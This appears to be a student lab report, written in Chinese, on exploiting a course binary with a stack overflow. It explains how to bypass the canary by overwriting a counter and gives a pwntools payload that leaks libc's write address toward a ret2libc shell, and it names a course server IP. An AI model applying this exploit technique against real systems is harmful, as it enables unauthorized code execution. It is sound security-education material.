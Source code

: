 # 实验五：软件安全-漏洞利用实验

> 李逸飞 2015010062

## 实验要求

通过分析压缩包内的二进制程序vul32，找出漏洞，并写出利用脚本，获取远程服务器上的flag文件
提供远程服务的二进制程序和使用的libc

远程服务器地址：nc 202.112.51.154 20001

本次实验独立完成，不组队，每位同学提交自己的利用脚本和实验报告，其中需要写明使用的工具、利用原理和最终取得的flag，以"学号-姓名"的命名方式打包必要的文件，报告推荐使用pdf格式。

## 实验平台

实验在本人的AWS服务器上进行

- OS: Ubuntu 18.04.1 LTS (GNU/Linux 4.15.0-1031-aws x86_64)
- Python: Python 2.7.15 rc1
- 攻击工具: pwn, checksec

## 攻击结果

直接在`vul32`目录下执行

```sh
$ ./hack.py
```

即可获取目标机器的shell，从而得到`/home/ctf_puck/flag`，内容为

```sh
$ cat flag
flag{Ok_yOu_get@#$_it!}
```

攻击结果如下图所示，同时还用`uname -a`输出了目标机器的信息：

![](fig/res.PNG)

## 实验过程

### 漏洞发现

刚开始直接使用大量输入进行栈溢出，初步发现

![](fig/testk.PNG)

可以看到，有时会正常退出，有时会导致SIGSEGV，提示数组越界。且最后一个输出的字符会有偏移。判断可能有buffer边界保护，使用`checksec`检查该程序包含的保护机制如下

![](fig/sec.PNG)

可以看到打开了`CANARY`即数组边界保护，以及`NX`即不能执行栈上的代码，所以不能直接在栈上插入shellcode，同时考虑到提供了`libc.so`，可以使用`ret2lib`攻击方法。

利用`objdump`导出vul32文件的汇编代码`vul32.S`，观察`main`函数，可以看到调用了一个`dovuln`的函数，进一步检查该函数，该函数中进行了未保护的buffer输入，存在漏洞，可以利用。

使用IDA反汇编，得到`vul32.c`如下

```c
    int dovuln()
    {
    int v0; // eax@5
    int result; // eax@6
    int v2; // ecx@6
    char buf; // [sp+4h] [bp-44h]@2
    char v4[51]; // [sp+5h] [bp-43h]@1
    int v5; // [sp+38h] [bp-10h]@1
    int v6; // [sp+3Ch] [bp-Ch]@1

    v6 = *MK_FP(__GS__, 20);
    memset(v4, 0, 0x30u);
    v5 = 0;
    while ( 1 )
    {
        if ( read(0, &buf, 1u) != 1 )
        exit(0);
        if ( buf == 10 )
        break;
        v0 = v5++;
        v4[v0] = buf;
    }
    result = puts(v4);
    v2 = *MK_FP(__GS__, 20) ^ v6;
    return result;
    }
```

可以看到，开辟的buf大小为51，此外还有一个char buf，用来每次读入一个字节（字符），并将其复制到buf数组中。同时，观察`v6`和`v2`，它们是用于buf边界保护的canary，即将`%gs`段某地址中的随机值写入buf末尾某地址，写buf结束后，判断该地址中的值是否与原时值相等，若不等，说明发生缓冲区溢出。这部分汇编代码如下，可以看到canary地址为`-0xc(%ebp)`

```nasm
    8048649:	8b 4d f4             	mov    -0xc(%ebp),%ecx
    804864c:	65 33 0d 14 00 00 00 	xor    %gs:0x14,%ecx
    8048653:	74 05                	je     804865a <dovuln+0x8f>
    8048655:	e8 06 fe ff ff       	call   8048460 <__stack_chk_fail@plt>
 ```

此外，观察到还有一个计数器`v0`，不妨称为`cnt`。

为了方便调试，我编写了`.gdbinit`，各断点如下（对应于vul32.S）：

| breakpoint | meaning |
|-|-|
|`0x80485da`|设置canary后|
|`0x8048641`|调用`puts`输出buf前|
|`0x804865b`|从`dovuln`返回前|
|`0x80486cb`|从`main`返回前|

具体运行时，处于`dovuln`函数中栈上情况如下（调试时的草图）

![](fig/script.jpg)

其中一些关键成员如下表

| item | addr |
|-|-|
|return address| `0xffffd5ac` |
|ebp|`0xffffd5a8`|
|canary|`0xffffd59c`|
|cnt|`0xffffd598`|
|buf|`0xffffd565`|
|char buf|`0xffffd564`|

canary在用gdb调试时可以观察到地址为`0xffffd59c`，内容是一个每次运行不同的随机值：

![](fig/canary.PNG)

### 返回地址改写

由于canary的存在，直接在buf中覆盖到return address是不可行的。但仍然有可以利用的地方，就是计数器`cnt`，位置是`-0x10(%ebp)`，它用于把char buf中读到的字符（字节）复制到目标地址（偏址寻址）的偏移量，相关代码如下，即`0x8048630`处指令中的`%eax`，目标地址为`%ebp + %eax * 0x1 - 0x43`：

```nasm
    8048623:	8b 45 f0             	mov    -0x10(%ebp),%eax
    8048626:	8d 50 01             	lea    0x1(%eax),%edx
    8048629:	89 55 f0             	mov    %edx,-0x10(%ebp)
    804862c:	0f b6 55 bc          	movzbl -0x44(%ebp),%edx
    8048630:	88 54 05 bd          	mov    %dl,-0x43(%ebp,%eax,1)
 ```

考虑到在最初试探时，输入恰当数量的`k`并不会导致数组越界错误，其实就是因为恰好把cnt改成了越过canary的位置，而输入其他字符可能会导致错误，因为偏移不够覆盖了canary。而结尾的偏移字符其实是输出了cnt本身。比如输入';'（0x3b，59），会恰好越过canary：

![](fig/3bx64.PNG)

回顾上面的栈布局图（草图），写满cnt以下全部buf后，cnt为51，考虑到小端序，只需要在 **输入的第52个字节（字符）处** 设为恰好指向要改写目标的cnt值即可，继续观察上图，return address起始地址对应的cnt是71，也即`0x47`，或字母`G`，所以只需要连续 **输入52个'G'** 即可（打出GG

在52个G后即跟上希望返回的目标地址，比如返回到同一函数中的准备调用`puts`位置（因为只需要第53个字符为可键盘输入的字符'7' \[0x37\]即可）。结果如下

![](fig/smashing.PNG)

发生栈溢出（stack smashing），因为不断返回到函数调用语句，形成了无穷调用。

### 攻击实现

在探明返回地址改写方法后，就可以进入高层次的攻击设计。这里使用`pwn`工具辅助攻击，具体代码参考`vul32/hack.py`。

要获取/bin/sh，还缺少两个条件，一是`system`函数地址，而是`/bin/sh`字符串（地址）。经过检查libc.so.6，发现了system，但没有/bin/sh字符串。此外`vul32`中没有加载过`system`，因此也无法直接调用`system`。

但libc中各函数相对于libc的起始位置是固定的，可以用`nm -D`查看

```sh
$ nm -D libc.so.6|grep system
0003a940 T __libc_system
00110840 T svcerr_systemerr
0003a940 W system
```

可见system的偏移地址为`0x0003a940`，同理可以得到`write`和`gets`的偏移.

为了得到libc在内存中的起始地址，必须动态在攻击过程中让程序输出一些地址，比如程序用到的`write`函数，因为它在程序的PLT和GOT表中，PLT中为可以调用的代码，它指向GOT表中的同名函数所在位置，而该位置内存中存储着实际的`write`函数地址，在PLT代码中使用`jmp *`跳转到GOT内存中的实际地址执行代码并返回PLT代码。

这里选择使用`write`函数输出它自己的实际地址，构造栈空间如下：

```py
    payload = flat([    \
        'G' * 52,       \
        write_addr,     \
        dovuln_addr,    \
        1,              \
        write_got,      \
        4               \
    ])
```

攻击改写的地址为PLT中write地址，write的返回地址为dovuln地址，为了继续下一次缓冲区溢出攻击，三个参数分别为1（stdout），GOT中write地址（也即存储write真实地址的地址），4（4个字节）

读取返回结果时，要注意因为原程序是一个 *复读机* ，函数有一个`puts`再输出用户之前的输入，要把这部分去掉，读取返回的`write`实际地址


